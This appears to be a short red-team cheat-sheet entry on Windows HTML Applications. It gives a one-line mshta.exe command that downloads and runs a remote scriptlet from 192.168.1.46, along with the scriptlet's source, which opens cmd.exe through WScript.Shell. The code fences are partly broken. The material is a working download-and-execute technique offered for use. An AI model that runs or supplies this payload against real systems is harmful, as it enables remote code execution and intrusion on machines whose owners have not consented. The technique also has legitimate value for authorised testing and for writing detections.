 ## HTML Applications

An HTML Application is a Microsoft Windows program whose source code consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript. The HTML is used to generate the user interface, and the scripting language is used for the program logic.

### payload

```cmd
cmd /c mshta.exe javascript:a=(GetObject("script:http://192.168.1.46/nss-hta.sct")).Exec();close();
```

* `nss-hta.sct`
  
  ```javascript
  <?XML version="1.0"?>
  <scriptlet>
  <registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>
  ```

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
    function Exec()    {
        var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
    }
]]>
</script>

</scriptlet>

```

```
